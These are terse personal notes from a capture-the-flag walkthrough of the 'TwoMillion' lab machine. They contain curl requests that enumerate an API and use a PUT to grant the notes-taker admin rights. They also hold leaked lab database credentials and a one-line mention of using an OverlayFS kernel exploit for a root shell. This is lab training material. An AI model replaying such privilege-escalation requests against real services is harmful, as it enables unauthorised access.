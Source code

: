 ## TwoMillion Box

Can use javascript console to call loaded function in page like `makeInviteCode()`

cagiko4571@bitofee.com - temp mail
admin123 - password

http://2million.htb/api/v1/user/vpn/generate


cookie: tk5n6qrq4ern206r0a426pd7m6

 curl -sv 2million.htb/api/v1 --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" | jq

{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}

curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" --header "Content-Type: application/json" -d '{"email": "cagiko4571@bitofee.com", "is_admin": '1'}' | jq

curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=tk5n6qrq4ern206r0a426pd7m6" --header "Content-Type: application/json" --data '{"username": "test"}'

DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123

I'm know you're working as fast as you can to do the DB migration. While we're partially down, can you also upgrade the OS on our web host? There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasty. We can't get popped by that.

OverlayFS vuln for linux kernel popped root shell

